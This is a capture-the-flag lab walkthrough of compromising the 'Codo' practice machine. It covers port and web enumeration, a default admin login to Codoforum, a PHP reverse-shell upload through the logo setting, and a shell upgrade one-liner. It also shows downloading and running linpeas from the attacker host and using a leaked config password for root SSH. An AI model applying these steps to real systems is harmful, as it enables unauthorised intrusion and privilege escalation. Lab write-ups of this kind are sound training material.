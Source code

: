 ## Enumeration

```bash
(kali㉿kali)-[~/…/oscp/PG/practice/Codo]
└─$ nmap -A 192.168.196.23 -oN initial.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-04 18:03 EST
Nmap scan report for 192.168.196.23
Host is up (0.078s latency).
Not shown: 998 filtered tcp ports (no-response)
Bug in http-generator: no string output.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: All topics | CODOLOGIC
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
(kali㉿kali)-[~/…/oscp/PG/practice/Codo]
└─$ whatweb 192.168.196.23                 
http://192.168.196.23 [200 OK] Apache[2.4.41], Cookies[PHPSESSID,cf], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.196.23], Open-Graph-Protocol[website], Script[javascipt,text/html,text/javascript], Title[All topics | CODOLOGIC], X-UA-Compatible[IE=edge]
```

By browsing to the site we can see its sort of forum "codoforum" we try to login with admin:admin and it works!!

```bash
(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.196.23/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.196.23/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# Copyright 2007 James Fisher [Status: 200, Size: 45225, Words: 18868, Lines: 1046, Duration: 98ms]
# directory-list-2.3-big.txt [Status: 200, Size: 45225, Words: 18868, Lines: 1046, Duration: 101ms]
#                       [Status: 200, Size: 45225, Words: 18868, Lines: 1046, Duration: 871ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 75ms]
```
with ffuf we found admin page, there we see login that we already found (admin:admin).

now we can see it is codoforum version "V.5.1.105" 
![[Pasted image 20240105012750.png]]

Searching in google for codoforum version 5.1.105 exploits we found a php file inclusion in the logo (admin panel > global settings > change forum logo).
so we create a php rev shell with the web extension hack-tools and upload it to the logo then we start nc on port 80 and browse to "192.168.196.23/sites/default/assets/img/attachments/shell.php"
![[Pasted image 20240105020051.png]]
<center><font color="#c00000">we get the rev shell!</font></center>

now lets upgrade our shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg
export TERM=xterm
```

now lets get "linpeas.sh" to the host and run it:

```bash
(kali㉿kali)-[~/Desktop/scripts_explloits]
└─$ python3 -m http.server 8080
```
<center>Host</center>

```bash
www-data@codo:/home/offsec$ cd /tmp
www-data@codo:/tmp$ wget 192.168.45.185:8080/linpeas.sh
www-data@codo:/tmp$ chmod +x linpeas.sh
www-data@codo:/tmp$ ./linpeas.sh
```

and linpeas found password for in config php file.
![[Pasted image 20240105022429.png]]
'password' => 'FatPanda123'

now with this password we can ssh to root user 
![[Pasted image 20240105023845.png]]
